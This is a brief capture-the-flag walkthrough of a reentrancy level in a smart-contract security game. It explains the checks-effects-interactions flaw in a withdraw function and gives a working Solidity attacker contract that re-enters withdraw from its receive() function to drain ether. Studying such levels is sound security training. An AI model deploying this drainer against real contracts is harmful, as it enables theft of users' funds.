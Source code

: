 ### Goals

Steal all contract funds

### Exploit

As the name of this level suggest we should get familiar what the reentrancy is. Reentrancy is unexpected (by the contract logic) re-entring to the contract (as the name suggests XD).

Worth noticing that in the `withdraw` function balance of sender is updated after the call. That is very bad, it's so called [CEI](https://docs.soliditylang.org/en/v0.6.11/security-considerations.html) violation.

What this mean we can once again leverage our smart contract behaviour upon receiving of funds.

It is worth noting that since we will only be able to withdraw the deposited amount, we will have to deposit a multiple of the contract value.

### Code

The contract has 0.001 ether, let's send the same value.

Let's deploy following contract with Remix

```code
interface Reentrant {
    function donate(address) external payable;
    function withdraw(uint256) external;
}

contract Steal {
    Reentrant target = Reentrant(REENTRANCY_CONTRACT_ADDRESS);

    function hack() public payable {
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive() external payable {
      target.withdraw(msg.value);
  }
}

```

Now just call `Steal::hack()` along with sending 0.001 ETH, after the tx executes you should see the contract balance doubles :)

Done!
